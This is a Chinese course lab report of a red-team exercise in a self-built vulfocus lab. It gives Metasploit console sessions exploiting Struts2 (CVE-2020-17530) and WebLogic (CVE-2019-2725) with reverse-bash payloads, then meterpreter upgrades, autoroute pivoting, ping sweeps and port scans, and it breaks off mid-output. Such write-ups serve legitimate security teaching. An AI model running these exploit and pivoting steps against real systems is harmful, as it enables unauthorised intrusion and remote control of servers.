





# 网络安全综合实验报告

## 实验目标

### 前置

- [x] 通过容器部署vulfocus平台搭建实验所需场景

### As Team Red

- 漏洞存在性验证

  - [x] struts2 代码执行 （CVE-2020-17530）

  - [x] weblogic 远程代码执行 (CVE-2019-2725)

  - [x] 不知名的Nginx命令执行漏洞

- 漏洞利用

  - [x] struts2 代码执行 （CVE-2020-17530）

  - [x] weblogic 远程代码执行 (CVE-2019-2725)

  - [x] 不知名的Nginx命令执行漏洞

### As Team Blue

## 实验环境

### 环境List

- 宿主机：Windows 11 23H2 22631.2050

- 虚拟机平台

  - Oracle VirtualBox 7.0.8 r156879 as "Attacker"

    - Kali GNU/Linux Rolling x86_64

      - Kernel：6.3.0-kali-amd64

  - WSL 1.3.14.0 as "Victim"

    - Kali GNU/Linux Rolling on Windows 10 x86_64

      - Kernel：5.15.90.3-microsoft-standard-WSL2

### 环境描述

因为存在攻防的背景设定，本次实验使用到了2台虚拟机，分别是作为被攻击主机的WSL平台Victim主机和作为攻击者主机是VirtualBox平台Attacker主机，其中Victim主机用于运行vulfocus平台的场景容器并负责攻击流量抓取，Attacker主机用于渗透攻入

## 试验记录

### 环境搭建

>由于实验是线上进行，无论红方还是蓝方都需要进行自己作为成员的环境搭建，这里记录个人的搭建过程

已经具备的条件是VirtualBox和WSL两个平台都有安装好的Kali Linux，前者是之前CTF用过的系统，后者是网络安全课程就有使用的Linux子系统，按照课程视频的模式，其实应该是两台VirtualBox虚拟机之间进行操作，这次选择创造一点多样性和不确定性，在一半VirtualBox一半WSL上进行环境搭建

最开始计划将VirtualBox的虚拟机Kali作为Victim主机，但是由于想要遵循课程视频中描述的好的工作习惯，在Attacker主机使用Metasploit时通过msfdb记录操作，但是WSL这边由于其他原因没有设置为通过systemd引导启动（chroot性质），基于systemctl的postgresql初始化操作自然会出现需要折腾的情况（用不同于systemd的方式启动数据库服务或者将WSL通过systemd作为PID 1完整启动），于是果断将WSL作为Victim主机，因为有预先配置过手动启动dockerd，单纯通过容器搭建vulfocus平台和抓包流量的话并不需要折腾

vulfocus平台的搭建直接使用了[ctf-games](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)中打包好的shell脚本，git clone的部分就不需要特别演示了，唯一的操作是用`chmod +x /fofapro/vulfocus/start.sh`给脚本添加了可执行权限，然后执行，剩下的就是等待docker拉取镜像

唯一可以说一下的点是，课程视频包括课件中描述的将docker换USTC源的操作应该被标记为**outdated**，以下是官网的描述：

>由于访问原始站点的网络带宽等条件的限制，导致 Docker Hub, Google Container Registry (gcr.io) 与 Quay Container Registry (quay.io) 的镜像缓存处于基本不可用的状态，因此科大镜像站的各容器镜像服务仅限校内使用。  
>对于从科大校外的访问：
>
>- Docker Hub 和 Google Container Registry 会返回 403；  
>
>- Quay 会被 302 重定向至源站。

作为颇为出名的开源镜像站，且不论格局问题，也许可能确实是被薅疼了，于是新的🐏的选择就出现了，那就是NJU的镜像😂

只需要进行一点点修改：

```bash
# 使用南京大学 Docker Hub 镜像源
cat <<EOF > /etc/docker/daemon.json
{
  "registry-mirrors": ["https://docker.nju.edu.cn/"]
}
EOF
```

当然官方也有文档，详细内容可以看[这里](https://doc.nju.edu.cn/books/35f4a/page/docker-hub)

### 红方操作

假设要真实一点考虑攻防的话，其实整个红方操作部分在漏洞存在性检测这一环节都没有做很好，正确的思路应该是通过某种与服务的交互获取到信息，在确认POC可行之后再执行exploit，否则就是在白送0day🤔

而在接下来的内容当中，将记录最“不敬业”的红方操作😂

即

>“成功利用=漏洞存在”

的逻辑，无奈我们这是白盒渗透就是了，已然做好了挨骂的准备(。﹏。)

#### 外层

从模拟显示的角度来考虑，最外层的主机负责对外提供服务，于是直接得到了提供服务的端口号，也就是vulfocus平台上场景的入口端口

操作上，通过Metasploit工具的平台搜索struts2或者~~不演了~~直接搜索CVE-2020-17530，如果是前者的话需要进行一点肉眼筛选，这次的漏洞编号说明是2020年的漏洞，于是可用的exploit只有2020年9月14日的：

```metasploit
msf6 > search struts2

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   1  exploit/multi/http/struts2_multi_eval_ognl       2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation
   2  exploit/multi/http/struts2_namespace_ognl        2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   3  exploit/multi/http/struts2_rest_xstream          2017-09-05       excellent  Yes    Apache Struts 2 REST Plugin XStream RCE
   4  exploit/multi/http/struts2_code_exec_showcase    2017-07-07       excellent  Yes    Apache Struts 2 Struts 1 Plugin Showcase OGNL Code Execution
   5  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   6  exploit/multi/http/struts2_content_type_ognl     2017-03-07       excellent  Yes    Apache Struts Jakarta Multipart Parser OGNL Injection
   7  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution


Interact with a module by name or index. For example info 7, use 7 or use exploit/multi/http/struts_code_exec_parameters
msf6 > search cve-2020-17530

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/struts2_multi_eval_ognl  2020-09-14       excellent  Yes    Apache Struts 2 Forced Multi OGNL Evaluation


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/struts2_multi_eval_ognl

msf6 >
```

之后就是选用exploit，然后添加payload，这里选择和课件中一样的`cmd/unix/reverse_bash`，随后是options的设置阶段，设置rhosts为Victim主机的eth0网卡地址，rport则为平台上随机的端口，同时将payload中的lhost设置为Attacker主机的Host-Only网卡，之后就剩下输入run或者exploit执行了，不添加`-j`无非是将exploit过程放在前台进行，也确实没有太着急到需要在exploit的一点时间中再见缝插针做点什么操作

随后只需要等待exploit运行完成，payload中的反弹bash会自动开启，接下来就是`ls /tmp`查看flag了（早期摸索过程截图，比较啰嗦）：



#### 中层

当拿到外层主机的shell之后是需要对外层主机所在内部网络进行扫描，尝试找出进一步向深层进发的跳板主机，需要做的5个步骤大概是如下内容：

1. 对已攻入主机所在内网网段中其他主机进行存活验证

2. 对存活的其他主机进行端口扫描

3. 对已开放端口号进行信息收集，得到开放的服务的信息

4. 从开放的服务入手获取版本寻找可用的漏洞

5. 确定漏洞，装载payload，exploit

很显然上面的5个步骤中这边能够走过的是1，2和5，类似于已知了漏洞的前提下进行操作

首先是将已经获得的1号会话即外层主机shell升级为meterpreter，说是升级并且执行的命令也是`sessions -u 1`，其实是通过上传名为`post/multi/manage/shell_to_meterpreter`的payload的方式开启更多功能的会话：

```metasploit
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.56.107:4433
[*] Sending stage (1017704 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.107:4433 -> 192.168.56.1:60598) at 2023-07-26 05:44:37 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/http/struts2_multi_eval_ognl) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)

msf6 exploit(multi/http/struts2_multi_eval_ognl) >
```

此时使用2号会话的meterperter就可以直接查看外层主机的网卡信息了，于是便获得了一个新的内网网段`192.171.84.0/24`：



当然最主要的还是需要用meterpreter实现让外层的主机作为中介路由，将下一步内网扫描的包转发过去，此时会用到`post/multi/manage/autoroute`模块，只需要将会话ID填入即可，之后运行便会自动添加路由信息到Metasploit的路由表中（因为顺利执行过后重复操作不会再次添加路由表信息，可能与实际回显不同）：

```metasploit
msf6 exploit(multi/http/struts2_multi_eval_ognl) > search autoroute

Matching Modules
================

   #  Name                         Disclosure Date  Rank    Check  Description
   -  ----                         ---------------  ----    -----  -----------
   0  post/multi/manage/autoroute                   normal  No     Multi Manage Network Route via Meterpreter Session


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/autoroute

msf6 exploit(multi/http/struts2_multi_eval_ognl) > use 0
msf6 post(multi/manage/autoroute) > options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, autoadd, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  2                yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)


View the full module info with the info, or info -d command.

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 192.171.84.4
[*] Searching for subnets to autoroute.
[*] Did not find any new subnets to add.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.171.84.0       255.255.255.0      Session 2

[*] There are currently no IPv6 routes defined.
msf6 post(multi/manage/autoroute) >
```

之后的顺序应该为先进行存活验证后进行端口扫描，如此可以通过存活性筛除掉不必要的IP地址，可以让端口扫描更快速更高效，这里选择使用模块`post/multi/gather/ping_sweep`，填入必要的options之后就可以进行扫描了：

```metasploit
msf6 exploit(multi/http/struts2_multi_eval_ognl) > search ping_sweep

Matching Modules
================

   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  post/multi/gather/ping_sweep                   normal  No     Multi Gather Ping Sweep


Interact with a module by name or index. For example info 0, use 0 or use post/multi/gather/ping_sweep

msf6 exploit(multi/http/struts2_multi_eval_ognl) > use 0
msf6 post(multi/gather/ping_sweep) > options

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.171.84.2-254
rhosts => 192.171.84.2-254
msf6 post(multi/gather/ping_sweep) > set session 2
session => 2
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.171.84.2-254
[+]     192.171.84.5 host found
[+]     192.171.84.3 host found
[+]     192.171.84.4 host found
[+]     192.171.84.2 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) >
```

关于端口扫描，由于已经筛选出来了所有在线的主机，这里姑且尝试了半·地毯式扫描，1-10000（原计划1-65535的，16线程扫了1个小时了没扫完），最大化动静走起了😂选用的模块是课件同款的`auxiliary/scanner/portscan/tcp`，同样是填入所需的options之后运行即可

等待扫描结果之际，这里截取了一张地毯式端口扫描时宿主机上看到的网卡使用情况，这种流量如果在内网中有监测到的话其实是可以考虑直接进行人机验证或是block的（笑）



仅仅是10000个端口，4台主机，用4096线程也等了很久才算完整运行出结果：

```metasploit
msf6 auxiliary(scanner/portscan/tcp) > options

Module options (auxiliary/scanner/portscan/tcp):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   CONCURRENCY  10               yes       The number of concurrent ports to check per host
   DELAY        0                yes       The delay between connections, per thread, in milliseconds
   JITTER       0                yes       The delay jitter factor (maximum value by which to +/- DELAY) in millisecon
                                           ds.
   PORTS        1-10000          yes       Ports to scan (e.g. 22-25,80,110-900)
   RHOSTS       192.171.84.2-5   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/b
                                           asics/using-metasploit.html
   THREADS      1024             yes       The number of concurrent threads (max one per host)
   TIMEOUT      1000             yes       The socket connect timeout in milliseconds


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/portscan/tcp) > set threads 4096
threads => 4096
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 192.171.84.5:         - 192.171.84.5:7001 - TCP OPEN
[+] 192.171.84.2:         - 192.171.84.2:7001 - TCP OPEN
[+] 192.171.84.3:         - 192.171.84.3:7001 - TCP OPEN
[*] 192.171.84.2-5:       - Error: 192.171.84.3: ActiveRecord::ConnectionTimeoutError could not obtain a connection from the pool within 5.000 seconds (waited 5.006 seconds); all pooled connections were in use
[*] 192.171.84.2-5:       - Scanned 1 of 4 hosts (25% complete)
[*] 192.171.84.2-5:       - Scanned 1 of 4 hosts (25% complete)
[+] 192.171.84.4:         - 192.171.84.4:8080 - TCP OPEN
[*] 192.171.84.2-5:       - Scanned 3 of 4 hosts (75% complete)
[*] 192.171.84.2-5:       - Scanned 4 of 4 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/portscan/tcp) >
```

模拟完成步骤2之后，为了节省时间，直接通过查询漏洞exploit的方式，通过Metasploit配合与之前一样的payload，一次性向3台主机发送exploit（为了省事直接`192.171.84.2-5`了，`192.171.84.4`并不是目标主机所以除了exploit失败也不会有太大问题）：

```metasploit
msf6 auxiliary(scanner/portscan/tcp) > search cve-2019-2725

Matching Modules
================

   #  Name                                                          Disclosure Date  Rank       Check  Description
   -  ----                                                          ---------------  ----       -----  -----------
   0  exploit/multi/misc/weblogic_deserialize_asyncresponseservice  2019-04-23       excellent  Yes    Oracle Weblogic Server Deserialization RCE - AsyncResponseService


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/misc/weblogic_deserialize_asyncresponseservice

msf6 auxiliary(scanner/portscan/tcp) > use 0
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > options

Module options (exploit/multi/misc/weblogic_deserialize_asyncresponseservice):

   Name       Current Setting               Required  Description
   ----       ---------------               --------  -----------
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                   yes       The target host(s), see https://docs.metasploit.com/docs/using-m
                                                      etasploit/basics/using-metasploit.html
   RPORT      7001                          yes       The target port (TCP)
   SSL        false                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /_async/AsyncResponseService  yes       URL to AsyncResponseService
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix


View the full module info with the info, or info -d command.

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 192.171.84.2-3,192.171.84.5
rhosts => 192.171.84.2-3,192.171.84.5
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost 192.168.56.107
lhost => 192.168.56.107
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run

[-] Msf::OptionValidateError The following options failed to validate: RHOSTS
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 192.171.84.2-5
rhosts => 192.171.84.2-5
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run
[*] Exploiting target 192.171.84.2

[*] Started reverse TCP handler on 192.168.56.107:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 3 opened (192.168.56.107:4444 -> 192.168.56.1:60640) at 2023-07-26 10:53:00 -0400
[*] Session 3 created in the background.
[*] Exploiting target 192.171.84.3
[*] Started reverse TCP handler on 192.168.56.107:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 4 opened (192.168.56.107:4444 -> 192.168.56.1:60630) at 2023-07-26 10:53:07 -0400
[*] Session 4 created in the background.
[*] Exploiting target 192.171.84.4
[*] Started reverse TCP handler on 192.168.56.107:4444
[*] Generating payload...
[*] Sending payload...
[-] Exploit failed: Rex::Post::Meterpreter::RequestError core_channel_open: Operation failed: 1
[*] Exploiting target 192.171.84.5
[*] Started reverse TCP handler on 192.168.56.107:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 5 opened (192.168.56.107:4444 -> 192.168.56.1:60574) at 2023-07-26 10:53:13 -0400
[*] Session 5 created in the background.
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) >
```

剩下的就是分别在3个会话中`ls /tmp`查看flag提交了，这里不再赘述

#### 内层

仍然和中层一样需要找到跳板主机访问到内层网络，通过升级普通会话到meterpreter，随后搭建autoroute添加路由表，随后进行存活性扫描，再者是端口扫描，话不多说直接操作吧

首先是升级会话和找到连接内层网络的跳板主机，这里因为开太多容器和虚拟机的问题回连速度略慢导致产生了报错，即前一会话仍在等待4433端口的回应时下一会话的payload已经发送过去导致本地端口冲突了，不过不影响，使用`jobs -l`确认后台执行完成后3个会话都升级到了meterpreter：

```metasploit
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -u 3-5
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [3, 4, 5]

[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.56.107:4433
[*] Sending stage (1017704 bytes) to 192.168.56.1
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Sleeping 5 seconds to allow the previous handler to finish..
[*] Upgrading session ID: 4
[*] Starting exploit/multi/handler
[-] Job 1 is listening on IP 192.168.56.107 and port 4433
[-] A job is listening on the same local port
[-] Failed to start exploit/multi/handler on 4433, it may be in use by another process.
[*] Sleeping 5 seconds to allow the previous handler to finish..
[*] Upgrading session ID: 5
[*] Starting exploit/multi/handler
[-] Job 1 is listening on IP 192.168.56.107 and port 4433
[-] A job is listening on the same local port
[-] Failed to start exploit/multi/handler on 4433, it may be in use by another process.
[*] Sleeping 5 seconds to allow the previous handler to finish..
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > [*] Meterpreter session 6 opened (192.168.56.107:4433 -> 192.168.56.1:60622) at 2023-07-26 11:08:53 -0400

[*] Stopping exploit/multi/handler

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)
  6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:60622 (192.171.84.2)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > ipconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 35
============
Name         : eth0
Hardware MAC : 02:42:c0:ab:54:02
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.171.84.2
IPv4 Netmask : 255.255.255.0

meterpreter > background
[*] Backgrounding session 6...
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -u 4
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [4]

[*] Upgrading session ID: 4
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.56.107:4433
[*] Sending stage (1017704 bytes) to 192.168.56.1
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -u 5
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [5]

[*] Upgrading session ID: 5
[*] Starting exploit/multi/handler
[-] Job 2 is listening on IP 192.168.56.107 and port 4433
[-] A job is listening on the same local port
[-] Failed to start exploit/multi/handler on 4433, it may be in use by another process.
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > jobs -l

Jobs
====

  Id  Name                    Payload                            Payload opts
  --  ----                    -------                            ------------
  2   Exploit: multi/handler  linux/x86/meterpreter/reverse_tcp  tcp://192.168.56.107:4433

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > [*] Meterpreter session 7 opened (192.168.56.107:4433 -> 192.168.56.1:60618) at 2023-07-26 11:10:35 -0400

[*] Stopping exploit/multi/handler

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -u 5
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [5]

[*] Upgrading session ID: 5
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.56.107:4433
[*] Sending stage (1017704 bytes) to 192.168.56.1
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > jobs[*] Meterpreter session 8 opened (192.168.56.107:4433 -> 192.168.56.1:60638) at 2023-07-26 11:11:01 -0400

[*] Stopping exploit/multi/handler
jobs -l

Jobs
====

No active jobs.

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
